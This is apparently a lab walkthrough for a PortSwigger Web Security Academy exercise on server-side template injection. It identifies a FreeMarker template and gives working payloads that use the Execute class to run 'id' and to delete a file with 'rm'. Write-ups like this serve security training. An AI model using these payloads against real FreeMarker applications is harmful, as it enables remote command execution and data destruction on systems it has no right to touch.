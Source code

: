 # Server-side template injection using documentation
Lab URL :- 

`https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation`

![image](https://user-images.githubusercontent.com/60841283/153761363-fc4910a6-da85-4886-9fac-0b732c7a6519.png)

## Identifying the template
Login into account and edit one of the templates

![image](https://user-images.githubusercontent.com/60841283/153760397-128edca0-a091-43f5-841c-293de023da83.png)

Change it to something else and save it.

![image](https://user-images.githubusercontent.com/60841283/153760439-72a7f003-8e45-47d9-a208-373664ea1996.png)

Template --> freemarker.

Blog post for reference exploitation

`https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html`

Payload
```html
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}
```

![image](https://user-images.githubusercontent.com/60841283/153761232-56df116a-ee59-451c-b03c-c905a288212b.png)

![image](https://user-images.githubusercontent.com/60841283/153761199-708f9a33-cf6d-465c-ab9a-6fee49139573.png)

Delete the file
```html
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("rm /home/carlos/morale.txt")}
```

![image](https://user-images.githubusercontent.com/60841283/153761276-2a85c8e9-3ce7-4c3f-a278-59664218636b.png)

Save and file gets deleted.

![image](https://user-images.githubusercontent.com/60841283/153761299-df5e62ae-390b-4597-9a34-3617d1df5bc3.png)

